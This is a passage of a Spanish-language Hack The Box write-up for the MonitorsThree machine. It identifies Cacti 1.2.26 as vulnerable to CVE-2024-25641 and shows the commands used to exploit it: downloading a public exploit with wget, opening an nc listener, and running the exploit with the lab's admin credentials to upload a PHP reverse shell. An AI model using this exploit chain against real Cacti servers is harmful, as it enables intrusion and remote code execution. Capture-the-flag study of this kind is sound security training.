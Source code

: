 ![](assets/img/htb-writeup-monitorsthree/monitorsthree3_1.png)
![](assets/img/htb-writeup-monitorsthree/monitorsthree3_2.png)

Una vez autenticado en Cacti, noto que la versión utilizada es 1.2.26, la cual es vulnerable a [CVE-2024-25641](https://nvd.nist.gov/vuln/detail/CVE-2024-25641).

Para explotar esta vulnerabilidad, utilicé el siguiente [exploit](https://github.com/5ma1l/CVE-2024-25641/tree/master).

```terminal
/home/kali/Documents/htb/machines/monitorsthree:-$ wget https://raw.githubusercontent.com/5ma1l/CVE-2024-25641/refs/heads/master/exploit.py

/home/kali/Documents/htb/machines/monitorsthree:-$ nc -nlvp 4321
	listening on [any] 4321 ...

/home/kali/Documents/htb/machines/monitorsthree:-$ python3 exploit.py http://cacti.monitorsthree.htb/cacti/ admin greencacti2001 -p /home/kali/Documents/tools/php-reverse-shell.php
```
